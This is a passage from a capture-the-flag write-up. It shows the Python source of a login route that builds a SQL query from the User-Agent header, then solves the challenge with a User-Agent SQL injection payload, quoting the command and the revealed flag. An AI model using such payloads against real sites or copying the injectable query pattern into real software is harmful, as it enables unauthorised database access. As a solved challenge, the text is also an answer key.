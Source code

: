 ```python
def index():
	return render_template("index.html")


@app.route("/login")
def login():
	u = request.headers.get("User-Agent")

	conn = mysql.connector.connect(pool_name="poolofagents",
					pool_size=16,
					**dbconfig)

	cursor = conn.cursor()

	for r in cursor.execute("SELECT * FROM Agents WHERE UA='%s'"%(u), multi=True):
		if r.with_rows:
			res = r.fetchall()
			conn.close()
			break

	

	if len(res) == 0:
		return render_template("login.html", msg="stop! you're not allowed in here >:)")

	if len(res) > 1:
		return render_template("login.html", msg="hey! close, but no bananananananananana!!!! (there are many secret agents of course)")


	return render_template("login.html", msg="Welcome, %s"%(res[0][0]))

if __name__ == '__main__':
	app.run('0.0.0.0')
```

### Solution

The website's `/login` route is vulnerable to basic SQLi via the User-Agent header. If we try with the standard `' or 1=1#` payload, we are told that there are many secret agents (and no flag is found). We can limit the results to just 1 row using the `limit` keyword in SQL. We can then go through each record to find the flag. Trial and error shows that the flag record is at an offset of 2:

```bash
$ http https://agents.2020.chall.actf.co/login "User-Agent:' or 1=1 limit 1 offset 2#" | grep actf
	<p>Welcome, actf{nyoom_1_4m_sp33d}</p>
```

---

# Defund's Crypt <a name="defunds-crypt"></a>

